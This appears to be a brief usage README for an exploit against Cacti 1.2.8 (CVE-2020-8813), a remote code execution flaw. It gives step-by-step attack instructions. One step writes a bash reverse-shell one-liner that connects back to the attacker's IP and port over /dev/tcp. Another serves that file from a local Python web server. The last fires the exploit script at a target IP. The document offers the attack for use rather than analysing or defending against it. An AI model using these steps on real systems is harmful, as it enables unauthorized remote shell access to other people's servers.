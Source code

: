 #CVE: CVE-2020-8813
#Version: 1.2.8
#Cacti 1.2.8 RCE

Create a shell executable

eg. echo -ne 'bash -i >&/dev/tcp/LocalIP/PORT 0>&1' >shell

Start a Web-Server with your reverse shell inside webroot

eg. python3 -m http.server

Fire the exploit

Usage: python3 expoit.py TargetIP LocalIP ShellName

